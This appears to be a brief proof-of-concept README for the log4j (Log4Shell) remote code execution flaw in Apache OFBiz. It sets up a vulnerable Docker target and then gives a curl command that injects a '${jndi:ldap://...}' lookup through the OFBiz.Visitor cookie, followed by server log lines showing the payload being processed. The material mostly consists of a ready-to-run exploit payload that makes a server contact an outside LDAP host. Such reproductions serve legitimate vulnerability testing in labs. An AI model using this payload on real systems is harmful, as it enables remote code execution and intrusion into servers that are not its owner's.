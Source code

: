 # Apache OFBiz log4j RCE

## vulnerable app

```
git clone https://github.com/cckuailong/reapoc && cd reapoc/2020/CVE-2020-9496/vultarget/

docker-compose up -d
```

## Poc

```
curl --insecure -vv -H "Cookie: OFBiz.Visitor=\${jndi:ldap://ofbiz_test.yyyyyyyy}" https://xxxxxxxxxx/myportal/control/main
```

Log

```
2021-12-14 12:50:07,043 |sse-nio-8443-exec-16 |VisitHandler                  |I| Found visitorId [${jndi:ldap://localhost:1270/abc}] in cookie
2021-12-14 12:50:07,045 |sse-nio-8443-exec-16 |VisitHandler                  |I| The visitorId [${jndi:ldap://localhost:1270/abc}] found in cookie was invalid, creating new Visitor with ID [10010]
```

I've tested it

![](1.png)
